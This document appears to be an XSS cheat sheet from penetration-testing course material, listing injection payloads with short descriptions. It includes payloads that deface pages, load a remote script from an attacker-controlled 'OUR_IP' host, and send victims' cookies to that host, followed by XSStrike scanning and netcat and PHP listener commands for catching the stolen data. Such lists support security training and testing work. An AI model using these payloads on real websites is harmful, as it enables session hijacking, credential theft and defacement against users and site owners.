 # XSS Cheat Sheet


```Javascript
<script>alert(window.origin)</script>
```
*Description:* Basic XSS Payload

```Javascript
<plaintext>
```
*Description:* Basic XSS Payload

```Javascript
<script>print()</script>```
*Description:* Basic XSS Payload

```Javascript
<img src="" onerror=alert(window.origin)>
`````
*Description:* HTML-based XSS Payload

```Javascript
<script>document.body.style.background = "#141d2b"</script>
`````
*Description:* Change Background Color

```Javascript
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
`````
*Description:* Change Background Image

```Javascript
<script>document.title = 'HackTheBox Academy'</script>
`````
*Description:* Change Website Title

```Javascript
<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>
`````
*Description:* Overwrite website's main body

```Javascript
<script>document.getElementById('urlform').remove();</script>
`````
*Description:* Remove certain HTML element

```Javascript
<script src="http://OUR_IP/script.js"></script>
`````
*Description:* Load remote script

```Javascript
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>
`````
*Description:* Send Cookie details to us

## Commands

```python
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```
*Description:* Run `xsstrike` on a url parameter

```sh
sudo nc -lvnp 80
```
*Description:* Start `netcat` listener

```sh
sudo php -S 0.0.0.0:80
```
*Description:* Start `PHP` server
